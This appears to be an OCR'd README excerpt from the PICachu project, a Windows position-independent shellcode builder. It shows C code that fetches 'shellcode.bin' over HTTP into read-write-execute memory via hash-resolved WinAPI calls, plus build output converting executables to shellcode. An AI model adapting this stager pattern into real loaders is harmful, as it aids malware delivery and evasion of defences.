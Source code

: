     #include "ministdlib.h"

    int Mmain(API Api, LPCWSTR PasswdFromExecute){
    	char sitename[]		= { 'l','o','c','a','l','h','o','s','t',0 };
    	char user_agent[] 	= { 'u','s','e','r',0 };
    	char method[] 		= { 'G','E','T',0 };
    	char site_param[] 	= { 's','h','e','l','l','c','o','d','e','.','b','i','n',0 };
    	int port 			= 8080;

    	HINTERNET hInternet = Api._InternetOpenA(user_agent, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    	HINTERNET hConnect 	= Api._InternetConnectA(hInternet, sitename, port, NULL, NULL, INTERNET_SERVICE_HTTP, 0, NULL);
    	HINTERNET hRequest 	= Api._HttpOpenRequestA(hConnect, method, site_param, NULL, NULL, NULL, 0, 0);
    	Api._HttpSendRequestA(hRequest, NULL, 0, NULL, 0);
    	char* buff = Api._VirtualAlloc(0, 100000, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    	DWORD dwBytesRead = -1;
    	while (TRUE && dwBytesRead != 0) {
    		Api._InternetReadFile(hRequest, buff, 100000, &dwBytesRead);
    	}
    	Api._printf(buff);
    	Api._InternetCloseHandle(hRequest);
    	Api._InternetCloseHandle(hConnect);
    	Api._InternetCloseHandle(hInternet);
    	return 0;
    }
**PICachu/winapis.txt:**


    kernel32.dll->LoadLibraryA<-HMODULE<<(LPCSTR)
    kernel32.dll->VirtualProtect<-BOOL<<(LPVOID, SIZE_T, DWORD, PDWORD)
    msvcrt.dll->printf<-INT<<(LPCSTR, ...)

    wininet.dll->InternetOpenA<-HINTERNET<<(LPCSTR, DWORD, LPCSTR, LPCSTR, DWORD)
    wininet.dll->InternetConnectA<-HINTERNET<<(HINTERNET, LPCSTR, INTERNET_PORT, LPCSTR, LPCSTR, DWORD, DWORD, DWORD_PTR)
    wininet.dll->HttpOpenRequestA<-HINTERNET<<(HINTERNET, LPCSTR, LPCSTR, LPCSTR, LPCSTR, LPCSTR*, DWORD, DWORD_PTR)
    wininet.dll->HttpSendRequestA<-BOOL<<(HINTERNET, LPCSTR, DWORD, LPVOID, DWORD)
    kernel32.dll->VirtualAlloc<-LPVOID<<(LPVOID, SIZE_T, DWORD, DWORD)
    wininet.dll->InternetReadFile<-BOOL<<(HINTERNET, LPVOID, DWORD, LPDWORD)
    wininet.dll->InternetCloseHandle<-BOOL<<(HINTERNET)


**NOTE. After compile you will get randomly generated hashes for all used APIs:**

    (#node_1㉿#Usaaar)-> PICachu % ./compile.sh
    [*]Cleanning...
    rm: build/*.*: No such file or directory
    [*]Building API hashes file
    [*]Build adjust-stack
    [*]Build ApiResolve x64
    [*]Build ApiResolve x86
    [*]Build PIC for arch: x64
    [*]Build mainpic object
    [*]Build PIC for arch: x86
    [*]Build mainpic object
    .exe to shellcode
    .exe to .bin
    .exe to shellcode
    .exe to .bin
